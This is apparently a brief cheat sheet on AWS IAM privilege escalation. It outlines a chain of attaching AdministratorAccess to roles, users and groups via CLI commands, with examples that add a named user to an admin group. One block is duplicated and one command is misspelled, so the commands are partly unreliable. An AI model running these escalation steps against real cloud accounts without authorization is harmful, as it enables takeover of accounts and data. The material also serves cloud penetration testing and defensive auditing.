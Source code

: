 # IAM

## 1. permission escalation
Attach Policy `AdministratorAccess` -> Attach to Role ( with trust relation ship to `EC2` or `Lambda` ) -> Create `EC2` or `Lambda` -> Attach `AdministratorAccess` to user

Attach policy to role:
```
iam attach-role-policy --role-name <value> --policy-arn <value>
```
```
iam attach-role-policy --role-name administrator --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to user:
```
attach-user-policy --user-name <value> --policy-arn <value>
```
```
iam atach-user-policy --user-name haquocdat --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to group:
```
iam attach-group-policy --group-name <value> --policy-arn <value>
```
```
iam attach-group-policy --group-name admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach policy to group:
```
iam attach-group-policy --group-name <value> --policy-arn <value>
```
```
iam attach-group-policy --group-name admin --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

Attach user to group:
```
iam add-user-to-group --group-name <value> --user-name <value>
```
```
iam add-user-to-group --group-name admin --user-name haquocdat
```
